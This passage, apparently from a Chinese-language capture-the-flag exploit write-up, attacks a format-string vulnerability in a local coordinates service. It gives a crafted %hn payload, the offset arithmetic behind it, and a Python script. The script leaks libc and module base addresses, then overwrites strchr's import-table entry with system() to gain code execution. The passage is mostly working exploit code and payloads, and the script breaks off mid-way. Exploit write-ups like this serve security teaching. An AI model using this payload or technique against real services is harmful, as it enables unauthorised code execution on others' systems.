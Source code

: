 生成的攻击串exp为：

```
51.492137, -0.192878 :%126c%27$hn%24956c%28$hnAA\x5e\xd0\x2a\x00\x5c\xd0\x2a\x00

```

其中包含\x00，这是不完美的，但不影响功能。

关于exp的几点说明：

1.  由于%hn只能修改一个WORD，因此修改一个DWORD需要2个%hn。
2.  exp中"51.492137, -0.192878 :%126c"为22+126(0x94)，对应x5e\xd0\x2a\x00的2字节。
3.  exp中"51.492137, -0.192878 :%126c%24956c"为22+126+24956(0x6210)，对应x5c\xd0\x2a\x00的2字节。
4.  攻击串必须被放在栈中，否则构造的\x5e\xd0\x2a\x00\x5c\xd0\x2a\x00无法被%27$hn访问到。
5.  从预分析中得知call printf时ESP到exp头的距离是60字节(0xBFFF501C-0xBFFF4FE0),由index = (60 + prelen + 3)/4，向上取整即第21个参数，生成时加了6个是payload本身的长度，从而确保[esp+27*4]处正好是\x5e\xd0\x2a\x00。
6.  libformatstr会根据prelen的长度，以及payload本身的长度计算\x5e\xd0\x2a\x00\x5c\xd0\x2a\x00前需要补充的padding，因此fsb.payload的第二个参数设置为prelen。但在计算%c的时候有没有考虑prelen的长度，需要自己求得修正后的offset。

0x05 exp代码
=====

```
# -*- coding: utf-8 -*-

import sys
import socket
import time
import telnetlib
import libformatstr

def read_data(expsock, endstr):
    data = ''
    while not data.endswith(endstr):
        data += expsock.read(1)
    return data

offset_system  = 0x3b210
offset_strchr_iat = 0x505c

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(('127.0.0.1', 2606))
expsock = sock.makefile('rw', bufsize=0)

print read_data(expsock, "Selection: ")
expsock.write("3\n")
print read_data(expsock, "Coordinates: ")

expsock.write("51.492137, -0.192878 :%282$p:%275$p:\n")
respond = read_data(expsock, "Coordinates: ")

libc_base = int(respond.split(':')[1],16) - 0xc744
mod_base = int(respond.split(':')[2],16) - 0x1491
system_funaddr = libc_base + offset_system
strchr_iataddr = mod_base + offset_strchr_iat

print "mod_base", hex(mod_base)
print "libc_base", hex(libc_base)
print "system_funaddr", hex(system_funaddr)
print "strchr_iataddr", hex(strchr_iataddr)

preload = "51.492137, -0.192878 :"
prelen = len(preload)                       ###22###
offset = (((system_funaddr >> 16) - prelen) << 16) + ((system_funaddr - prelen) & 0xffff)
fsb = libformatstr.FormatStr()
fsb[strchr_iataddr] = offset & 0xffffffff   ###0x7e61fa###
```